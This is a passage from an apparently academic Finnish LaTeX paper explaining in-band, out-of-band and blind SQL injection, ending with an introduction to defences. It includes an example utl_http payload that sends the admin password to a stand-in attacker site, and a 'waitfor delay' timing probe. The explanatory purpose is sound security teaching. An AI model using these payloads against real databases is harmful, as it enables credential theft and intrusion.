 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\begin{description}
		\item[Inband injektio] \hfill \\
		Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat maasta jonka käyttäjä antaa kyselyssä.
		
		\item[Out-of-band injektio] \hfill \\
		Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
		
		\begin{lstlisting}[language=sql]
		utl_http('http://www.hyokkaajansivu.fi/injections/' || 
		SELECT password
		FROM User 
		WHERE username = 'admin'
		)
		\end{lstlisting}
		Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:
		
		\begin{lstlisting}
		GET "/injections/admininpassword", 200
		\end{lstlisting}
		
		Tällöin hyökkääjä saa selville käyttäjän admin salasanan.
		
		\item[Sokea injektio] \hfill \\
		Sokea injektio:
		Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}
		
		
	\end{description}
	
	\pagebreak
	
	
	\section {SQL-Injektiolta suojautuminen}
	SQL-Injektiolta suojautumiseen on kehitetty useita keinoja. Keinot voidaan jakaa kolmeen päätyyppiin: Hyvät ohjelmointikäytänteet, SQL-injektion havaitseminen ja SQL-injektion ajonaikainen ehkäisy\cite{detection}.
	
\end{document}
